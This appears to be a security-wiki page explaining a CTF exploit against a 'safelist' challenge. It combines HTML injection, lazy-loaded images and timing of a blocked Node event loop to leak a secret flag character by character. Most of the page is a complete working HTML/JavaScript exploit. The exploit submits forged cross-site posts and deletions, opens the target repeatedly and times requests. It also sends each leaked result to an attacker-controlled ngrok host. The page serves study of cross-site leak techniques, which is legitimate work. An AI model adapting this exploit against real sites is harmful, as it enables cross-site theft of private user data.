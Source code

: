 # Event Loop Blocking + Lazy images

{#include ../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}

In [**this exploit**](https://gist.github.com/aszx87410/155f8110e667bae3d10a36862870ba45), [**@aszx87410**](https://twitter.com/aszx87410) mixes the **lazy image side channel** technique through a HTML injection with kind of **event loop blocking technique** to leak chars.

This is a **different exploit for the CTF chall** that was already commented in the following page. take a look for more info about the challenge:

{{#ref}}
connection-pool-example.md
{{#endref}}

The idea behind this exploit is:

- The posts are loaded alphabetically
- An **attacker** can **inject** a **post** starting with **"A"**, then some **HTML tag** (like a big **`<canvas`**) will fulfil most of the **screen** and some final **`<img lazy` tags** to load things.
- If instead of an "A" the **attacker injects the same post but starting with a "z".** The **post** with the **flag** will appear **first**, then the **injected** **post** will appear with the initial "z" and the **big** **canvas**. Because the post with the flag appeared first, the first canvas will occupy all the screen and the final **`<img lazy`** tags injected **won't be seen** in the screen, so they **won't be loaded**.
- Then, **while** the bot is **accessing** the page, the **attacker** will **send fetch requests**.
  - If the **images** injected in the post are being **loaded**, these **fetch** requests will take **longer**, so the attacker knows that the **post is before the flag** (alphabetically).
  - If the the **fetch** requests are **fast**, it means that the **post** is **alphabetically** **after** the flag.

Let's check the code:

```html
<!DOCTYPE html>
<html>
  <!--
  The basic idea is to create a post with a lot of images which send request to "/" to block server-side nodejs event loop.
  If images are loading, the request to "/" is slower, otherwise faster.
  By using a well-crafted height, we can let note with "A" load image but note with "Z" not load.
  We can use fetch to measure the request time.
-->
  <body>
    <button onclick="run()">start</button>

    <!-- Inject post with payload -->
    <form
      id="f"
      action="http://localhost:1234/create"
      method="POST"
      target="_blank">
      <input id="inp" name="text" value="" />
    </form>

    <!-- Remove index -->
    <form
      id="f2"
      action="http://localhost:1234/remove"
      method="POST"
      target="_blank">
      <input id="inp2" name="index" value="" />
    </form>

    <script>
      let flag = "SEKAI{"
      const TARGET = "https://safelist.ctf.sekai.team"
      f.action = TARGET + "/create"
      f2.action = TARGET + "/remove"

      const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
      // Function to leak info to attacker
      const send = (data) => fetch("http://server.ngrok.io?d=" + data)
      const charset = "abcdefghijklmnopqrstuvwxyz".split("")

      // start exploit
      let count = 0
      setTimeout(async () => {
        let L = 0
        let R = charset.length - 1

        // I have omited code here as apparently it wasn't necesary

        // fallback to linerar since I am not familiar with binary search lol
        for (let i = R; i >= L; i--) {
          let c = charset[i]
          send("try_" + flag + c)
          const found = await testChar(flag + c)
          if (found) {
            send("found: " + flag + c)
            flag += c
            break
          }
        }
      }, 0)

      async function testChar(str) {
        return new Promise((resolve) => {
          /*
            For 3350, you need to test it on your local to get this number.
            The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
            If starts with "A", the image should be loaded because it's in the threshold.
          */
          // <canvas height="3350px"> is experimental and allow to show the injected
          // images when the post injected is the first one but to hide them when
          // the injected post is after the post with the flag
          inp.value =
            str +
            '<br><canvas height="3350px"></canvas><br>' +
            Array.from({ length: 20 })
              .map((_, i) => `<img loading=lazy src=/?${i}>`)
              .join("")
          f.submit()

          setTimeout(() => {
            run(str, resolve)
          }, 500)
        })
      }

      async function run(str, resolve) {
        // Open posts page 5 times
        for (let i = 1; i <= 5; i++) {
          window.open(TARGET)
        }

        let t = 0
        const round = 30 //Lets time 30 requests
        setTimeout(async () => {
          // Send 30 requests and time each
          for (let i = 0; i < round; i++) {
            let s = performance.now()
            await fetch(TARGET + "/?test", {
              mode: "no-cors",
            }).catch((err) => 1)
            let end = performance.now()
            t += end - s
            console.log(end - s)
          }
          const avg = t / round
          // Send info about how much time it took
          send(str + "," + t + "," + "avg:" + avg)

          /*
          I get this threshold(1000ms) by trying multiple times on remote admin bot
          for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
        */
          const isFound = t >= 1000
          if (isFound) {
            inp2.value = "0"
          } else {
            inp2.value = "1"
          }

          // remember to delete the post to not break our leak oracle
          f2.submit()
          setTimeout(() => {
            resolve(isFound)
          }, 200)
        }, 200)
      }
    </script>
  </body>
</html>
```

{#include ../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}


